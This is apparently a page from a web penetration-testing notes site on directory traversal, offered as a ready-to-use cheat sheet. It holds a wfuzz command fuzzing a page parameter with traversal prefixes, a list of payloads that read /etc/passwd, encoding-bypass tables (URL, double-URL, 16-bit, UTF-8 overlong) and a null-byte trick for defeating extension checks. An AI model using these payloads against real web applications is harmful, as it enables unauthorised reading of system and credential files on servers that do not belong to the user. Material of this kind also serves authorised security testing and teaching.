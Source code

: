```yaml
---
title: "Directory Traversal"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```

```
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```
### Examples:

* ../../../etc/passwd
* ....//....//....//etc/passwd
* .%252f..%252f..%252fetc/passwd
* /var/www/images/../../../etc/passwd
* ./../../etc/passwd%00.png
### Try non-standard encoding:
* . = %2e
* / = %2f
* \ = %5c
### 16-bit:
* . = %u002e
* / = %u2215
* \ = %u2216
### Double URL:
* . = %252e
* / = %252f
* \ = %255c
### UTF-8:
* . = %c0%2e, %e0%40%ae, %c0ae
* / = %c0%af, %e0%80%af, %c0%2f
* \ = %c0%5c, %c0%80%5c

If an application requires that the user-supplied filename must end with an expected file extension, such as .png, then it might be possible to use a null byte to effectively terminate the file path before the required extension.

For example: filename=../../../etc/passwd%00.png